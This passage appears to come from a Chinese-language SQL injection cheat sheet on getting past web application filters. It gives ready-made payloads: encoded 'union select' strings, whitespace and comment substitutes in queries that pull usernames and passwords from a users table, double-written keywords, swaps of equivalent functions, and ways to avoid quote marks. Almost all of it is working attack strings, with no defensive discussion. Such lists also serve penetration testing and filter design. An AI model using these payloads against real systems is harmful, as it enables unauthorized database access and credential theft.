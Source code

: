 #### 编码绕过
```sql
-- URL编码
%75%6e%69%6f%6e%20%73%65%6c%65%63%74  # union select

-- 十六进制编码
select 0x61646d696e  # admin

-- Unicode编码
\u0075\u006e\u0069\u006f\u006e  # union
```

#### 空白字符绕过
```sql
-- 空格替换
union/**/select/**/user,password/**/from/**/users
union%0aselect%0auser,password%0afrom%0ausers
union%0dselect%0duser,password%0dfrom%0dusers
union%0cselect%0cuser,password%0cfrom%0cusers
union%09select%09user,password%09from%09users
union%a0select%a0user,password%a0from%a0users
```

#### 关键字绕过
```sql
-- 双写绕过
ununionion seselectlect user,password frfromom users

-- 等价函数替换
substr() → substring() → mid()
ascii() → ord()
length() → char_length()

-- 特殊构造
'union' → 'uni'+'on'
'union' → 'uni'||'on'
'union' → concat('uni','on')
```

### [[过滤绕过]]
**应用层过滤绕过**

#### 引号绕过
```sql
-- 十六进制
select * from users where username=0x61646d696e

-- char函数
select * from users where username=char(97,100,109,105,110)

-- 反引号
select * from `users` where `username`=admin
```
